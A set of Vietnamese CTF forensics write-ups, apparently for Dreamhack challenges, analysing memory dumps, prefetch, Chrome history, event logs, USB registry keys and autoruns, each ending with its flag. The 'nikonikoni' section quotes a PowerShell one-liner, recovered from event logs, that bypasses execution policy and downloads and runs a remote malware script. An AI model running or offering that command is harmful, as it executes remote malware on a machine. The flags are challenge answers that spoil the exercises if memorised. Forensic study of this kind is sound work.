# find-the-spy

Nói chung đại loại thì có vẻ như là gián điệp tuồn tin của công ty ra ngoài giờ ta cần tìm bằng chứng, cấu trúc flag là DH{A_B} với A là thời gian viết thư và B là thư này từ đâu 
Ta thấy nó được gửi ở một tệp tin nén vậy nên khi trích xuất ta sẽ dung lệnh filescan để tìm xem có những tập tin nén nào không 

May mắn là đề khá nhân từ nên chỉ cho 2 file, ta dump 2 file ra để xem nội dung 

ở file đầu thì có vẻ như đây là file được tạo ra nhằm xác định tệp zip này được lưu ở đâu và kết quả có vẻ là lưu từ 1 mail.
Ta export 2 file kia thì thấy 1 file zip với 3 file pdf nằm trong nhưng lại không giải nén ra được ta tiến hành kiểm tra trên HxD

ở đây ta thấy cái report 3 có một tệp ảnh png khá lạ nên ta sẽ copy nó ra để xem file png đó là gì 

uầy có cả ngày giờ chuẩn rồi này vậy là ta có đáp án B và A luôn vì ở đây cũng ghi địa điểm luôn rồi 
->flag là DH{20240131120000_COEX}
# study_checker 

Đại loại là có một báo cáo nói rằng một học sinh đã lén chơi game trên máy tính trong giờ học và chúng ta phải kiểm tra. Đầu tiên ta sẽ tìm mục Windows Prefetch trên ftk imager sau đó trích xuất nó ra và dùng tool WinPrefetchView để xem, ta để ý phần thư mục thì phát hiện được 2 game là MINESWEEPER VÀ PINBALL



Double click vào 2 file thì để ý phần lần chạy cuối cùng mình kiếm mốc chạy lần cuối và chạy lần đầu là được sau đó lên web đổi ra


Vậy là có phần time còn phần tên thì ta cần đi vào cái thư mục chứa file này để xem tên nó là gì




Ta thấy 2 name là Minesweeper và PINBALL ghéo vào là có flag

Flag: DH{Minesweeper_1713712791_PINBALL_1713713644}
# chrome_artifacts

Đại loại là cần phân tích một sự cố hack, icon có đuôi .ico được sử dụng trong để tấn công có vẻ tải từ một trang web bên ngoài, ta cần phân tích chrome để tìm ra cấu trúc flag là A là tên file, B là thời gian download được đổi qua giờ Unix, C là MIME type
Đầu tiên ta sẽ đi check lịch sử của chrome để xem coi đã tải cái gì xuống 

Ta tiến hành trích xuất history và mở trên dbsqlite vì nó là sqlite format

Ta dễ dàng tìm thấy được part A là: Dtafalonso-Android-L-Chrome, phần B là thời gian tải cũng dễ thấy ở start time, ta có một phép tính vì time này là Webkit timestamp của chrome, cần đổi ra Unix time mình thì khá lười nên nhờ AI chuyển giùm luôn

->B: 1712416601
Sau đó kéo qua 1 tí tại đây ta có luôn phần cuối

->C: image/x-icon
->flag: DH{Dtafalonso-Android-L-Chrome_1712416601_image/x-icon}
# nikonikoni

Đại loại là máy tính đã bị hack và đổi hình nền bằng 1 nhân vật anime
Ta cần điều tra event log và phân tích malware tồn tại trên máy tính với A là tên của phần mềm để đổi ảnh, B là hình đã đổi và C là thời gian mã độc thực thi theo giờ Unix
Đầu tiên ta sẽ tiến hành check các event của powershell để xem có gì bất thường không bởi vì trong đề bài có nói về việc đổi hình nền tự động nên rất có thể là thông qua powershell hoặc cmd

Đầu tiên ở event log 600 ta có thể thấy được một lệnh powershell tải về script github gì đó
powershell.exe -exec bypass -C IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/esby97/powershell_malware/master/malware.ps1');
đại loại là tải cái dòng lệnh này và chạy như một code

Để ý một tí, trong đây có 3 event log đều có cùng một lệnh nhưng thời gian khác nhau ảnh hưởng đến đáp án câu C hãy để ý xíu về những event log này, event log 600 là event ghi lại khi bắt đầu hoạt động của powershell kiểu như mỗi lần nó được mở sẽ để lại log, nó là log đầu tiên, event log 4104 là event mà ở đó hiển thị ra toàn bộ đoạn mã được nạp vào trong quá trình chạy đây là event log bạn sẽ thấy được toàn bộ source code của malware, còn event 4103 là event log ghi lại sau khi chạy xong nên nó sẽ là event sau cùng


Có thể thấy event 4104 ghi lại nội dung của malware qua đó ta thấy C là của event 600 vì hacker đã dung lệnh chạy powershell ngay lập tức để tải và thực thi mã độc vậy nên ở event log 600 ghi nhận lần đầu powershell được hoạt động sẽ là chính xác nhất tiến hành đổi qua Unix time

Ta truy cập vào link https://raw.githubusercontent.com/esby97/powershell_malware/master/malware.ps1

Ok dựa vào link này có thể dễ dàng thấy hacker đã tải 1 file Setwallpaper.exe và đổi thành merong.exe. Và tấm ảnh được tải từ trang web imgur một trang web lưu trữ ảnh trực tuyến đổi thành ani.jpg vậy là ta có cả A và B cùng lúc 
Flag:DH{merong_ani_1712417205}
# Boot-time

Đại loại là tìm thời gian log lần cuối được bật nói chung bài này khá dễ 1 phát là ra cơ mà có một số lý thuyết thú vị
Đầu tiên ta có thể check xem máy khởi động ở 2 event log là 6005 và 4608 cả 2 event này đều chứa thông tin này nhưng nhìn kĩ này 


Ta thấy event 4608 và 6005 chênh lệch nhau hẳn 4s nhiêu đây là đủ để ra flag sai rồi. Lí do là vì với event 4608 nó gắn với LSASS của win nên nó sẽ được bật ngay khi khởi động và luôn bật trước 6005. Vậy nên event log của nó sẽ sớm hơn 6005 nên ta có thể thấy độ trễ 4 giây vậy nên check 4608 mới chuẩn đáp án.
->flag: DH{2024_04_07_00_23_44}
# Track the file

Bài này cũng không có gì lắm, ta sẽ tìm được file malware ở đây 

Vì trên này nó hiện thời gian utc chuẩn rồi nên ta +9 theo múi giờ hàn là ra flag
->flag:DH{2024_04_04_21_10_46}
# Find the USB 

Ok dựa vào đề bài ta cần xác định cái usb đã đưa malware vào để xác định được phần cứng ta cần phân tích windows registry vì đây là nơi quản lý phần cứng và driver

Trích xuất file ra và mở bằng registry explorer

Ta có thể thấy ở thư mục USBSTOR lưu trữ về usb thì thấy có 1 thiết bị usb với serial number như trên ảnh vậy là ta đã có được 1 phần, mở folder usb ở bên trên ta thấy thêm được VID và PID ở thư mục đầu tiên
->flag: DH{058F_6387_03A49E66}
# Autoruns 


Đại loại là khi sau khi có người kết nối và ngắt kết nối usb khỏi máy của dream thì mỗi lần bật máy là cái phần mềm calculator nó cứ tự động bật lên, ta cần phân tích windows registry để ra đáp án
Ta có 2 cái cần check đó là SOFTWARE và NTUSER.DAT vì đều là những file lưu lại thông tin những phần mềm nào chạy cùng máy nhưng SOFTWARE là toàn máy cần có quyền admin để chạy còn NTUSER.DAT thì không cần và chỉ chạy với user đấy thôi ví dụ có 1 malware nếu nhiễm vào SOFTWARE thì trong máy tính có bao nhiêu user khi mở máy đều kích hoạt nhưng nếu chỉ nhiễm vào NTUSER.DAT thì của user nào user đấy tự chịu

Check SOFTWARE có thể thấy không có file nào chạy cùng cả nên ta chuyển qua NTUSER.DAT 

Ta thấy được malware.exe đây giờ lên ftk để extract nó ra 

Hình dạng là một cái máy tính vậy thì đúng cái ta cần tìm rồi, đề bài có nói khá rõ về một phần mềm như máy tính luôn bật khi máy khởi động 

Ta lên virus total để check md5 của file vậy là có flag.
Flag: DH{302021d31f2d0bce01d7afc26bfe2ba2}
